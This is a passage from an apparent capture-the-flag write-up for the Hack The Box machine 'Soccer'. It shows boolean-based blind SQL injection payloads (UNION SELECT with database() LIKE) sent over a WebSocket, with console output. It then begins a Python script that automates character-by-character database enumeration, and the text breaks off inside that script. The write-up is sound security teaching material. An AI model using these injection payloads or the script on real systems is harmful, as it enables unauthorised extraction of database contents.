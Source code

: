 Running the above code we see "Ticket Doesn't Exists."  This tells us that our above statements is false and therefore the database does not start with the letter a.

{% highlight console %}
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 test.py
Ticket Doesn't Exist
{% endhighlight %}

However, If we check if the database starts with the letter s, we receive "Ticket Exists."
{% highlight python %}
data ={"id": "1 UNION SELECT 1,2,3 WHERE database() like 's%'"} # Checking to see if the database begins with the letter s
ws.send(str(json.dumps(data)))
result = ws.recv()
print(result)
{% endhighlight%}
{% highlight console %}
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 test.py
Ticket Exists
{% endhighlight %}

Now that I know that the first letter of the database is s, I can loop through the alphabet to find the second letter.  If I did this I would find the second letter is "o."
{% highlight python %}
data ={"id": "1 UNION SELECT 1,2,3 WHERE database() like 'so%'"} # Checking to see if the database begins with the letters "so"
ws.send(str(json.dumps(data)))
result = ws.recv()
print(result)
{% endhighlight%}
{% highlight console %}
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 test.py
Ticket Exists
{% endhighlight %}

Rather than doing this manually, I wrote a python script to automate this enumeration.


`soccer_sqli.py`
{% highlight python %}
import websocket,json, sys
"""
Example Usage

python3 soccer_sqli.py "WHERE database() like '__loop__%'" f

"""

alpha_b = "q w e r t y u i o p a s d f g h j k l z x c v b n m 0 1 2 3 4 5 6 7 8 9 _ -"
alpha_b_list = alpha_b.split()
ALPHA_B = "Q W E R T Y U I O P A S D F G H J K L Z X C V B N M q w e r t y u i o p a s d f g h j k l z x c v b n m 0 1 2 3 4 5 6 7 8 9 ! @ # $ ^ & * ( ) ? > < , . [ ] { } _ -"
ALPHA_B_LIST = ALPHA_B.split()


def get_from_db(payload, replacement_text, full_list=False):
    payload = dict(payload)
    payload['id'] = payload['id'].replace("__replace__", replacement_text)
    ws = websocket.WebSocket()
    ws.connect("ws://soc-player.soccer.htb:9091")
    end_of_word = False
    this_word = ""
    if full_list:
        letter_list = ALPHA_B_LIST
    else: